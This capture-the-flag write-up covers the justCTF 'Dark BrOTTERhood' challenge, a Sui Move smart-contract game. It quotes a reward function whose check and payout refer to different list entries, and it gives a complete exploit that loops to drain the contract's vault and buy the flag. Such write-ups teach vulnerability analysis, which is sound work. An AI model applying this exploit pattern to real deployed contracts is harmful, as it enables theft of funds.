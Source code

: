 # Dark BrOTTERhood

## Challenge
> In the shadowed corners of the Dark Brotterhood's secrets, lies a tavern where valiant Otters barter for swords and shields. Here, amidst whispers of hidden bounties, adventurers find the means to battle fearsome monsters for rich rewards. Join this clandestine fellowship, where the blockchain holds mysteries to uncover. Otters of Valor, your destiny calls; may your path be lined with both honor and gold.

  Challenge created by [embe221ed](https://embe221ed.dev/) & Darkstar49 from [OtterSec](https://osec.io/blog)

  `nc db.nc.jctf.pro 31337`

  https://s3.cdn.justctf.team/42840bf9-5734-42c6-9463-2b61238148e8/db_docker.tar.gz

The setup is the same as for The Otter Scrolls

## Taking Over the BrOTTERhood
This time the smart contract implements a little text adventure where we can fight monsters and buy better gear.
The goal is to buy the flag item and prove it to the contract.

The problem is that we start out with 137 coins and the flag costs 1337.
So we need to slay some monsters to gain more coins.
But we also need to buy a new sword for each monster we want to slay because it breaks afterwards.
Buying a sword costs 137 coins but slaying a monster can only give up to 37 coins.
This means that the monster slaying business is not profitable and we have to take another route.

The other route is of course to become a hacker and break the game.
Most of the functionality looks pretty sane.
But one bug can be found in the function `get_the_reward` which is used to claim the reward for slaying a monster:
```
    #[allow(lint(self_transfer))]
    public fun get_the_reward(
        vault: &mut Vault<OTTER>,
        board: &mut QuestBoard,
        player: &mut Player,
        quest_id: u64,
        ctx: &mut TxContext,
    ) {
        let quest_to_claim = vector::borrow_mut(&mut board.quests, quest_id);
        assert!(quest_to_claim.fight_status == FINISHED, WRONG_STATE);

        let monster = vector::pop_back(&mut board.quests);

        let Monster {
            fight_status: _,
            reward: reward,
            power: _
        } = monster;

        let coins = coin::split(&mut vault.cash, (reward as u64), ctx);
        coin::join(&mut player.coins, coins);
    }
```
As can be seen the `quest_to_claim` is taken from the given `quest_id` but then `monster` is retrieved by using `vector::pop_back` which retrieves the last item of the list.
So the `assert!` is potentially checked against another monster then the one from which the reward is given.
This can be exploited by finding two monsters.
Slaying the first and leaving the second one alive.
Now if `get_the_reward` is called with `quest_to_claim=0` the `assert!` will pass as it checks against the killed monster but we will get the reward for the second monster.
We can now find new monsters and claim the reward from them without actually killing them. Nice!

Here is the final exploit:
```
    #[allow(lint(public_random))]
    public fun solve(
        _vault: &mut Otter::Vault<OTTER>,
        _questboard: &mut Otter::QuestBoard,
        _player: &mut Otter::Player,
        _r: &Random,
        _ctx: &mut TxContext,
    ) {
        // buy sword to kill monster
        challenge::Otter::buy_sword(_vault, _player, _ctx);
        // get first monster to the correct state
        challenge::Otter::find_a_monster(_questboard, _r, _ctx);
        challenge::Otter::fight_monster(_questboard, _player, 0);
        challenge::Otter::return_home(_questboard, 0);

        // claim reward for other monsters in a loop
        let mut i = 0;
        while (i < 1000) {
            i = i + 1;
            challenge::Otter::find_a_monster(_questboard, _r, _ctx);
            challenge::Otter::get_the_reward(_vault, _questboard, _player, 0, _ctx);
        };

        // buy the flag and submit it
        let flag = challenge::Otter::buy_flag(_vault, _player, _ctx);
        challenge::Otter::prove(_questboard, flag);
    }

}
```
Running this exploit yields the flag `justCTF{I_us3d_to_b3_an_ott3r_until_i_t00k_th4t_arr0w}`

